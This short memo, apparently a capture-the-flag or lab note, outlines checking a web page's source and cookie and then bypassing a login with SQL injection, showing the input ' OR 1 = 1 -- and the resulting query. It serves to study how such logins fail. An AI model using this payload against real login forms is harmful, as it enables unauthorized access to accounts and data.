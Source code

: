 # Memo
1. read web source and check cookie  
2. SQLi  
    target
    ```sql
    SQL query: SELECT * FROM users WHERE name='test' AND password='test'
    ```
    SQLi
    ```
    name = ' OR 1 = 1 --
    password = any
    ```
    ```sql
    SQL query: SELECT * FROM users WHERE name='' OR 1 = 1 --' AND password='any'
    ```